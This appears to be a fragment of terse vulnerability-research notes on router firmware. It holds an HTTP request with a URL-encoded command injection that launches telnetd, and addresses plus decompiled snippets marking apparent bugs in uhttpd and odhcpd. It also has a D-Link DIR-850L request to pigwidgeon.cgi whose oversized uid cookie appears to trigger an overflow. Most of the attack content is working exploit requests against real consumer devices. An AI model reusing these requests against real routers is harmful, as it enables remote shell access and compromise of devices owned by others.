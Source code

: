 ```http
X-Requested-With: XMLHttpRequest
Connection: close


params=%7B%22src%22%3A%22%2Fdata%22%2C%22dst%22%3A%221.tar%22%2C%22list%22%3A%5B%221%27%3Btelnetd%27%22%5D%7D
```



## datacon

https://xz.aliyun.com/t/5808#toc-0





uhttpd : 0x8052612/0x8051BF2

```
ustream_printf(cl_0->us, "Location: %s\r\n\r\n", string_1);
ustream_printf(cl_0->us, "%s: %s\r\n", v4, string_0);
```

odhcpd: 0x4AAB 

```
v10 = strcpy(addr4.s_addr, name)
```

0x5DBB

```
v96 = malloc(v95 + 1);
```

0x5F69

```c
v105 = realloc(*(v7 + 584), 4 * v104);
```







## dlink dir-850L

#### bug1

```http
POST /pigwidgeon.cgi HTTP/1.0

Host: shareport.local

Cookie: uid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Prefix: asasdaw

Cache-Control: max-age=0

Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: "Linux"
```